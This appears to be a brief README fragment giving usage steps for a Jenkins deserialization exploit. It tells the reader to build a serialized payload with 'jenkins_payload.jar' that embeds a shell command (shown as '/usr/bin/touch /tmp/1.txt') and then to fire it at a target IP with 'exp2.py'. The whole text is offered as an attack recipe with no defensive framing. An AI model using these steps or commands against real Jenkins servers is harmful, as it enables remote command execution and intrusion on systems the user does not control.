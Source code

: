 How to use: <br>
1.Download jar file:<br>
2.use "java -jar jenkins_payload.jar payload.ser "/usr/bin/touch /tmp/1.txt"  to create a ser file.<br>
3.run exp2.py "exp2.py -p HTTP -t [ip]"<br>

